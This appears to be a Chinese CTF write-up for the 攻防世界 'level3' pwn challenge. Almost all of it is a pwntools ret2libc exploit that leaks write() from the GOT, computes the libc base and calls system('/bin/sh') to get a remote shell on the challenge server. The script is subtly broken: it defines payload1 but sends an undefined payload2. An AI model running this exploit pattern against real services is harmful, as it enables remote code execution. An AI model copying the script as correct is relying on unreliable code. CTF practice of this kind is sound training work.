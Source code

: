 ### Write 泄露 Libc 结合 .so 文件

话不多说，直接上题（攻防世界）

![](https://pic1.imgdb.cn/item/68091dbf58cb8da5c8c6c0ad.png)

代码很简单

![](https://pic1.imgdb.cn/item/68091dd858cb8da5c8c6c0b3.png)

但是这题给出了 `.so` 文件，那我们就要利用这个文件去算 `libc`

```python
from pwn import *

elf = ELF('./level3')
libc = ELF('./libc_32.so.6')
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']
sh = remote('111.198.29.45',30808)

payload0 = b'a' * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)

sh.sendlineafter("Input:\n",payload0)

# 得到 write 函数的真实地址，32 位收到的包长 4 位，所以用[:4]
write_got_addr = u32(sh.recv()[:4])

# 计算 libc 加载的基地址
libc_addr = write_got_addr - libc.symbols['write']
# 计算 system 函数真实地址
sys_addr = libc_addr + libc.symbols['system']
# 计算 /bin/sh 真实地址，这个 0x15902b 就是 /bin/sh 在 libc 中的偏移量
bin_sh_addr = libc_addr + 0x15902b

payload1 = b'a' * 140 + p32(sys_addr) + p32(0x1234) + p32(bin_sh_addr)

sh.sendline(payload2)
sh.interactive()
```

